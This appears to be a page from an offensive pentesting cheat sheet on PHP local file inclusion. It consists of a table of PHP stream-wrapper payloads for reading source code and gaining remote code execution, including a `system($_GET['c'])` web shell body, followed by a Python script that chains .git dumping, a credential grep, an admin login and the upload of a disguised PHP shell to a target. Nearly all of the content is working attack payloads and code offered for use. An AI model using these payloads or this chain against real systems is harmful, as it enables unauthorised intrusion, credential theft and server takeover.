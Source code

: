 ### Complete PHP Wrapper Matrix (Enhanced)

| Wrapper | Purpose | Requirements | Real-World Success Rate | Example |
|---------|---------|--------------|------------------------|---------|
| `php://filter` | Read source | None | ✅ High (90%) | `?page=php://filter/convert.base64-encode/resource=index` |
| `php://input` | RCE | `allow_url_include=On` | ⚠️ Medium (30%) | POST: `<?php system($_GET['c']); ?>` |
| `data://` | RCE | `allow_url_include=On` | 🚫 Low (10%) | `?page=data://text/plain;base64,PD9waHA...` |
| `phar://` | Deserialization | Upload + trigger | ⚠️ Medium (40%) | `phar://uploads/evil.jpg` |
| `expect://` | Direct RCE | `expect` extension | 🚫 Very Low (5%) | `?page=expect://id` |
| `zip://` | File inclusion | Upload ZIP | ⚠️ Medium (35%) | `zip://uploads/shell.zip%23shell.php` |
| `compress.zlib://` | Bypass filters | Common | ✅ High (70%) | `compress.zlib://file.php` |
| `glob://` | Directory listing | PHP 5.3.0+ | ⚠️ Medium (50%) | `glob:///var/www/*` |

---

## 🔗 Vulnerability Chaining: Multi-Step Exploitation

### Chain 1: Information Disclosure → RCE
```python
def exploit_chain_git_to_rce():
    """
    Step 1: .git exposure → Source code
    Step 2: Find hardcoded creds in config.php
    Step 3: Admin panel access
    Step 4: File upload → PHP shell
    """

    # Step 1: Extract git repository
    os.system("git-dumper http://target/.git ./source")

    # Step 2: Search for credentials
    creds = subprocess.check_output(
        "grep -r 'password\\|secret' ./source --include='*.php'",
        shell=True
    )

    # Step 3: Access admin panel
    session = requests.Session()
    session.post("http://target/admin/login", data={
        "username": extracted_user,
        "password": extracted_pass
    })

    # Step 4: Upload shell
    files = {'upload': ('shell.jpg.php', php_shell, 'image/jpeg')}
    session.post("http://target/admin/upload", files=files)
```
